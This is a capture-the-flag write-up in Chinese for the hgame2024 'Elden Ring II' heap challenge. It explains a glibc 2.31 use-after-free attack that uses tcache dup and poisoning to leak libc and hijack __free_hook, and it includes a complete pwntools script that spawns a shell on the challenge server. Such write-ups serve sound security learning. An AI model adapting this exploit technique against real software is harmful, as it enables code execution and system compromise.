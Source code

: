 ```yaml
---
title: hgame2024 week2 - Elden Ring II
date: 2024/2/15 16:00:00
updated: 2024/7/25 12:34:56
tags:
    - heap - tcache
    - libc2.31
excerpt: 利用glibc 2.31中的UAF漏洞，通过tcache dup和poisoning获得libc并执行system("/bin/sh")。
---
```


{% note %}
write some notes
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

> 第二周上来4道堆题

glibc 2.31，有uaf，考虑tcache dup + poisoning  
最大尺寸拿得到unsorted bin，从里面拿到libc，然后打freeHook

要注意的是想tcache dup，需要把`key`写成其他值，此外还要free一个其他堆块放置top chunk合并

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering2')
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('106.14.57.14', 31825)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')

    def addn(idx:int, size:int):
        sh.sendlineafter(b'>', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())

    def deln(idx:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def edit(idx:int, content:bytes):
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendafter(b'Content', content)

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    addn(0, 0x98)
    addn(1, 0x98)
    addn(2, 0x98)
    addn(3, 0x98)
    addn(4, 0x98)
    addn(5, 0x98)
    addn(6, 0x98)
    addn(7, 0x98)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2)
    deln(1)
    deln(0) # 1-7 in tcache, 0 in unsorted bin
    ret = show(0)
    
    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    print(f'\x1b[33mcheck libcBase: {hex(libcBase)}\x1b[0m')
    freeHook = libcBase + libc.symbols['__free_hook']
    system = libcBase + libc.symbols['system']

    addn(8, 0x18)
    addn(9, 0x38) # prevent chunk from being merged into top chunk
    deln(8)
    edit(8, p64(freeHook) + b'\n')
    deln(8) # make 2 bins in tcache
    edit(8, p64(freeHook) + b'\n')
    addn(10, 0x18) # get chunk 8
    addn(11, 0x18) # get freeHook
    edit(11, p64(system) + b'\n')
    edit(9, b'/bin/sh\0\n')
    deln(9)

    sh.clean()
    sh.interactive()
```

